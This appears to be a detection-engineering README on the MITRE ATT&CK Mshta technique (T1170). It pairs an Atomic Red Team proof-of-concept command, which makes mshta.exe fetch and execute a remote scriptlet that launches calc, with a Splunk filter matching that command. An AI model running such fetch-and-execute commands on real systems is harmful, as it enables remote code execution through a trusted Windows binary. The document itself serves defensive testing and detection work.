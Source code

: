 # Mshta -- T1170

## Description

Mshta.exe is a Microsoft Utility that allows for the execution of HTML applications. An attacker can leverage mshta.exe to execute malicious .hta files and execute Javascript or VBScript using the trusted Windows Utility. Red Atomic/Canary provided a proof-of-concept for this ATT&CK Mitre Execution Technique. Here's an example command that leverages using mshta.exe to launch calc.exe

## Attack 

mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();

![mshta](https://user-images.githubusercontent.com/36422282/55601275-2a38fa00-572e-11e9-838d-f32599684b26.PNG)


*NOTE* This filter is specific and relates to the specific attack itself, as required to show correctness within writing filters

## Splunk Filter

NOTE: This filter is specific and relates to the specific attack technique itself.

host="DESKTOP-EHTEINI" ParentCommandLine="mshta.exe  javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();"


![mshta](https://user-images.githubusercontent.com/36422282/55601319-5d7b8900-572e-11e9-9d96-5d4aefac4bc8.png)



